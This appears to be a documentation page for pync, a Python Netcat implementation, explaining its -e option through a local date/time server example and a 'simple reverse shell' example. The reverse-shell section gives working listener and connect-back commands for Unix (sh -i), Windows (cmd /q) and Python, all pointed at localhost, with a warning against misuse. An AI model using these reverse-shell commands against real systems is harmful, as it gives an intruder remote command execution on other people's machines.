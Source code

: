 =====================
[-e]xecuting Commands
=====================

Using the **-e** option, you can execute a command and
connect the command processes i_o with Netcat's connection
socket.

Creating a Date/Time Server
===========================

For example, by combining the -e option with both the -l
option to [-l]isten for connections and the -k option
to [-k]eep the server open, we can create a simple
date/time server:

.. tab:: Unix

   .. code-block:: sh

      pync -kle date localhost 8000

.. tab:: Windows

   .. code-block:: sh

      py -m pync -kle "echo %date%-%time%" localhost 8000

.. tab:: Python

   .. code-block:: python

      # datetime_server.py
      import platform
      from pync import pync

      if platform.system() == 'Windows':
          command = "echo %date%-%time%"
      else:
          command = 'date'

      pync('-kle {} localhost 8000'.format(command))

A Simple Reverse Shell
======================

To illustrate an interactive command, we can create a
simple reverse shell that lets us execute commands remotely.

.. warning::
   | Please BE CAREFUL with this functionality as it could expose your system to attackers.
   | Also, please DO NOT use this functionality for evil purposes.

1. Create a server that will listen for the reverse shell connection:

.. tab:: Unix

   .. code-block:: sh
   
      pync -l localhost 8000

.. tab:: Windows

   .. code-block:: sh

      py -m pync -l localhost 8000

.. tab:: Python

   .. code-block:: python
   
      from pync import pync
      pync('-l localhost 8000')

2. On another console, create the reverse shell to connect back
   to our server:

.. tab:: Unix

   .. code-block:: sh

      pync -e "PS1='$ ' sh -i" localhost 8000

.. tab:: Windows

   .. code-block:: sh

      py -m pync -e "cmd /q" localhost 8000

.. tab:: Python

   .. code-block:: python

      # reverse_shell.py
      import platform
      from pync import pync

      if platform.system() == 'Windows':
          command = 'cmd /q'
      else:
          command = "PS1='$ ' sh -i"

      pync('-e {} localhost 8000'.format(command))

There should now be a prompt on the server console that
allows you to remotely execute commands on the client machine.

